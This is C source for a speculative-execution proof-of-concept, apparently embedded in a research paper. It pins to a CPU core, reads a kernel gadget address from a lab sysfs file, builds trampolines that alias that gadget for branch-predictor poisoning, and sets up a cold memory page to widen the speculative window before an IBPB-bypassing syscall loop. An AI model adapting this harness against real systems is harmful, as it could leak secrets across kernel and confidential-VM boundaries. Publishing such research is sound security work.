extern uint64_t __pbinc_kernel_gadget_addr;    // Kernel gadget VA (to alias against)
extern uint64_t __pbinc_probe_shared;          // SHARED (C-bit=0) buffer (host-observable)
extern uint64_t __alias_tbl[TRAMPOLINE_COUNT]; // Callsite trampoline table (filled at runtime)
extern uint64_t __slow_predicate_ptr;          // Cold memory to delay branch resolution

// Provided by trampoline.c -> builds the aliasing callsite trampolines
void *pbinc_create_trampolines(uint64_t gadget_addr);

// Provided by pbinc.asm -> the speculative training -> syscall -> spin harness
void pbinc_entry(void);

// Reads a hex value from a sysfs-style file (e.g. /sys/kernel/pbinc/gaddr)
static uint64_t read_hex(const char *path) {
    FILE *f = fopen(path, "r");
    if (!f) { 
        perror(path); exit(1); // Abort if file can't be opened
    }
    unsigned long long x = 0;
    if (fscanf(f, "%llx", &x) != 1) {
        fprintf(stderr, "parse %s failed\n", path); exit(1); // Failed to parse hex
    }
    fclose(f);
    return x; // Return parsed 64-bit value
}

int main(int argc, char **argv) {
    if (argc < 2) {
        // Expect SHARED buffer guest-virtual address (GVA) as argument
        fprintf(stderr, "usage: %s <guest-VA-of-SHARED-probe-hex>\n", argv[0]);
        return 2;
    }

    ////////////////////////////////////////////
    // 1. Pin to specific CPU core -> stability
    ////////////////////////////////////////////
    cpu_set_t set; CPU_ZERO(&set); CPU_SET(0, &set);
    sched_setaffinity(0, sizeof(set), &set); // Enforce CPU affinity for PoC repeatability

    ////////////////////////////////////////////
    // 2. Patch runtime addresses from sysfs / CLI
    ////////////////////////////////////////////
    // Load kernel gadget virtual address from module sysfs (e.g. /sys/kernel/pbinc/gaddr)
    __pbinc_kernel_gadget_addr = read_hex("/sys/kernel/pbinc/gaddr");

    // Parse GVA of shared probe from command-line
    __pbinc_probe_shared = strtoull(argv[1], NULL, 16);

    ////////////////////////////////////////////
    // 3. Build CALLSITE trampolines that alias the kernel gadget
    ////////////////////////////////////////////
    // This fills __alias_tbl[] with entry points to hand-crafted callsite stubs (trampoline calls)
    // Each one has a return address that collides with the kernel gadget's class
    (void)pbinc_create_trampolines(__pbinc_kernel_gadget_addr);

    ////////////////////////////////////////////
    // 4. Allocate lab-only memory to act as a cold read for delayed branch resolution
    ////////////////////////////////////////////
    // The address will be read from inside the ".do_branch" block in pbinc.asm
    // It must be slow (ideally cold L3 or fault-suppressed) to prolong speculative window
    void *slow = aligned_alloc(4096, 4096); // Aligned for page granularity
    if (!slow) { perror("alloc slow"); exit(1); }
    __slow_predicate_ptr = (uint64_t)slow; // Patch the ASM-visible symbol

    ////////////////////////////////////////////
    // 5. Jump into ASM:
    // [1] Transiently train -> [2] Syscall (IBPB) -> [3] Spin loop
    ////////////////////////////////////////////
    pbinc_entry(); // This does not return
    return 0;
}
\end{lstlisting}

\end{document}
